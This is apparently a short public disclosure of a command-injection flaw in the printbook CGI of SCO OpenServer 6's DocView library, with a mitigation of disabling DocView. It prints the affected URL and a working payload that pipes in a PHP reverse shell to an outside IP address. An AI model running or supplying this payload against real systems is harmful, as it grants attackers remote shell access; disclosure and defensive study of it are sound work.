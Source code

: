 

**Responsible Disclosure Was Attempted.**


It was discovered that the printbook functionality within the DocView CGI library was vulnerable to a pipe parameter bypass, allowing an attacker to execute arbitrary system commands.
For some reason this ancient attack technique is still present within some older operating systems.

Tested on SCO OpenServer 6, however the printbook.cgi is still present within newer versions of OpenServer so im'a guess that the issue is still present. OpenServer is a little weird, its a unix based OS but dont expect most of the usual shells/tools to work.

Theres no official patch on fixing this however if you disable the DocView function you should be good.

![RCE Against SCO-OpenServer6](https://i.imgur.com/pzCZS3M.png)

Affected parameter and URL decoded payload:

 - /cgi-bin/printbook?booktitle=216409&toclevels=1&part=%2fen%2fOSR_FEATS%2fCONTENTS.html&outputform=pdf[VULN]
 - || php -r '$sock=fsockopen("10.165.34.103",4242);exec("/bin/sh -i <&3 >&3 2>&3");' &


